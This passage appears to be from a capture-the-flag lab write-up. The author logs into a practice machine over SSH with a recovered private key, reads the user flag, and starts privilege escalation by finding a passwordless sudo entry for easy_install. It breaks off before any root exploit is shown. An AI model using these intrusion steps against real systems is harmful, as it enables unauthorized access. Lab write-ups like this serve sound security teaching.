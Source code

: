 I copied the key to my machine and used it to reconnect to the server.

```bash
$ vim dev_id_rsa

$ chmod 600 dev_id_rsa

$ ssh -i dev_id_rsa developer@target
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 19:21:30 UTC 2023

  System load:           0.0
  Usage of /:            50.0% of 2.84GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             221
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:feb9:241

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36

developer@updown:~$ cat user.txt
REDACTED
```


## Getting root

Escalating to root was very easy. I checked if I could run anything with `sudo`. 

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

developer@updown:~$ ls -l /usr/local/bin/easy_install
-rwxr-xr-x 1 root root 229 Aug  1 18:07 /usr/local/bin/easy_install

developer@updown:~$ file /usr/local/bin/easy_install
/usr/local/bin/easy_install: Python script, ASCII text executable

developer@updown:~$ cat /usr/local/bin/easy_install
```